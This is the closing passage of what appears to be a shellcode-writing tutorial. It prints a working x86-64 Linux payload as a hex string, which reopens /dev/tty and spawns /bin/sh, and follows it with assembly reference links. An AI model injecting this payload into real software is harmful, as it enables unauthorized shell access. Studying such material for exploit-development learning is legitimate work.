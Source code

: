 Here is our final shellcode. Take a note of this string; you'll need to use this later.

```
$ for i in $(objdump -m i386:x86-64 -D final_shell |grep "^ " |cut -f2); do printf $i; done; echo
4831c04831ffb0030f055048bf2f6465762f74747957545f505e66be0227b0020f054831c0b03b4831db53bb6e2f736848c1e31066bb626948c1e310b72f534889e74883c7014831f64831d20f05
```

## More Resources:
- [Assembly Programming Tutorials](https://www.tutorialspoint.com/assembly_programming/index.htm)
- [Assembly System Calls (32-bit)](https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm)
- [System Call Table (64-bit)](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
- [Netwide Assembler (NASM)](https://nasm.us/)
- [Input, Output, and Error Redirection in Linux](https://linuxhandbook.com/redirection-linux/)


Enjoy :metal:
